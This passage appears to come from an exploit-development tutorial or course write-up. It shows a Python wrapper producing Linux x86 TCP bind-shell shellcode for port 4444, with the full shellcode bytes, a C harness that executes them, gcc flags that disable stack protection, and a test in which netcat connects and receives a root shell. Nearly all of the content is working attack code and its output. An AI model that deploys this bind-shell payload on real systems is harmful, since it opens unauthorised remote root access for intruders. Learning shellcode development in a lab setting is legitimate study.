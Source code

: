 ### Testing Wrapper with Port 4444
```console
root# python tcpbindwrapper.py
Enter TCP Port Number: 4444
Your TCP Port in Hex is: \x11\x5c
Choose your shellcode export format.
[1] = C Format
[2] = Python Format
[1]: 1
[----------------Your-Shellcode------------------]
shellcode = \
"\x31\xc0\xb0\x66\x31\xdb\xb3\x01\x31\xc9\x51\x53"
"\x6a\x02\x89\xe1\xcd\x80\x96\x31\xc0\xb0\x66\x31"
"\xdb\xb3\x02\x31\xd2\x52\x66\x68\x11\x5c\x66\x53"
"\x31\xc9\x89\xe1\x6a\x10\x51\x56\x89\xe1\xcd\x80"
"\x31\xc0\xb0\x66\x31\xdb\xb3\x04\x31\xc9\x51\x56"
"\x89\xe1\xcd\x80\x31\xc0\xb0\x66\x31\xdb\xb3\x05"
"\x31\xc9\x51\x51\x56\x89\xe1\xcd\x80\x93\x31\xc0"
"\x31\xc9\xb1\x02\xb0\x3f\xcd\x80\x49\x79\xf9\x52"
"\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3"
"\x89\xd1\xb0\x0b\xcd\x80";
```
#### Add Shellcode to C Program
```c
#include<stdio.h>
#include<string.h>
unsigned char shellcode[] = \
"\x31\xc0\xb0\x66\x31\xdb\xb3\x01\x31\xc9\x51\x53"
"\x6a\x02\x89\xe1\xcd\x80\x96\x31\xc0\xb0\x66\x31"
"\xdb\xb3\x02\x31\xd2\x52\x66\x68\x11\x5c\x66\x53"
"\x31\xc9\x89\xe1\x6a\x10\x51\x56\x89\xe1\xcd\x80"
"\x31\xc0\xb0\x66\x31\xdb\xb3\x04\x31\xc9\x51\x56"
"\x89\xe1\xcd\x80\x31\xc0\xb0\x66\x31\xdb\xb3\x05"
"\x31\xc9\x51\x51\x56\x89\xe1\xcd\x80\x93\x31\xc0"
"\x31\xc9\xb1\x02\xb0\x3f\xcd\x80\x49\x79\xf9\x52"
"\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3"
"\x89\xd1\xb0\x0b\xcd\x80";
main()
{
        printf("Shellcode Length:  %d\n", strlen(shellcode));
        int (*ret)() = (int(*)())shellcode;
        ret();
}
```
#### Compile Host C Program
```console
root# gcc -fno-stack-protector -z execstack -o shellcode shellcode.c
```

#### Test the shellcode - Port 4444
```console
# WINDOW 1
root# ./shellcode
Shellcode Length:  114

# WINDOW 2
root# netstat -tnalp | grep shellcode
tcp  0.0.0.0:4444   0.0.0.0:*  LISTEN  8004/shellcode
root# nc 127.0.0.1 4444
id
uid=0(root) gid=0(root) groups=0(root)
```
